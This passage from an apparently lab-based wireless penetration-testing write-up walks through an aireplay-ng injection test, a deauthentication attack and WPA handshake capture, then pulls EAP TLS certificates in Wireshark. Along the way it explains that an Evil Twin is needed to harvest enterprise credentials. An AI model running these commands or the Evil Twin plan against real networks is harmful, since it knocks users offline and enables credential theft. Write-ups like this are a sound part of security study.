 In a separate terminal, I validated that the network was vulnerable to injection prior to performing a de-authentication attack.

```shell
# Perform an injection test
sudo aireplay-ng -9 -a "02:13:37:BE:EF:03" wlan0mon

# Perform a de-authentication attack
sudo aireplay-ng --deauth 100 -a "02:13:37:BE:EF:03" wlan0mon
```

![[Pasted image 20231015175445.png]]

![[Pasted image 20231015175530.png]]

After performing the de-authentication attack, I was able to capture a WPA handshake.

![[Pasted image 20231015175647.png]]

After capturing the WPA handshake, I closed my "airodump" listener and disabled my monitor interface.

```shell
# Remove monitor interface
sudo airmon-ng stop wlan0mon
```

![[Pasted image 20231015175905.png]]

Unlike a standard WPA2-PSK network, we can't just crack the passphrase for authentication. We need to have end users mistakenly authenticate to us via an Evil Twin, so that their credentials can be cracked and used for authentication.

## Extracting Certificates from the Capture
---

Next, I opened the packet capture that was created by my original "airodump" capture with Wireshark to grab the certificates.

```shell
wireshark ./<network_ssid>-01.cap
```

In Wireshark, I filtered on "tls.handshake.certificate" to pull up the frames containing certificates.

![[Pasted image 20230427210320.png]]

Once I filtered the packets, I was able to pull the certificates.

```
--> Extensible Authentication Protocol
	--> Transport Layer Security
		--> TLSv1.2 Record Layer: Handshake Protocol: Certificate
			--> Handshake Protocol: Certificate
				--> Certificates
```
